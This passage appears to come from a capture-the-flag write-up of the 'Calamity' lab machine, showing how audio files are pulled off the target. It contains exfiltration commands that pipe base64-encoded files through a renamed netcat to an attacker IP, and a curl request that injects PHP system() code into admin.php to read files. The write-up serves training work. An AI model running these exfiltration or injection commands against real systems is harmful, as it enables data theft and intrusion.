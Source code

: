 
I'll use a renamed copy of `nc` to exfil:



    calamity> cp /bin/nc /dev/shm/0xdfcat
    calamity> cat /home/xalvas/recov.wav | base64 | /dev/shm/0xdfcat 10.10.14.24 443



Back at Kali:



    root@kali# nc -lnvp 443 | base64 -d > recov.wav
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.27.
    Ncat: Connection from 10.10.10.27:47346.



I did the same for the other two files:



    calamity> cat /home/xalvas/alarmclocks/rick.wav | base64 | /dev/shm/0xdfcat 10.10.14.24 443
    calamity> cat /home/xalvas/alarmclocks/xouzouris.mp3 | base64 | /dev/shm/0xdfcat 10.10.14.24 443



If I wanted to do that without renaming `nc`, I could also just do it
through `curl` having PHP print the contents of the file:



    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode .md=<?php system(\"cat /home/xalvas/recov.wav\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\.md>/ d' > recov-curl.wav

    root@kali# md5sum recov*
    a2c5f6ad4eee01f856348ec1e2972768  recov-curl.wav
    a2c5f6ad4eee01f856348ec1e2972768  recov.wav



### Audio Enumeration

I used `play` (from `apt install sox libsox-fmt-all`) to play the audio
files from the command line. The first file, `xouzouris.mp3` is
something I didn't recognize, but
[acrcloud.com](https://www.acrcloud.com/identify-songs-music-recognition-online/upload/553da35f2ea5e410f48762d6347ea5b8#upload-div)
identifies it as De Luilaksmurf by De Smurfen:

![](/img/image-20200824140653892.png)
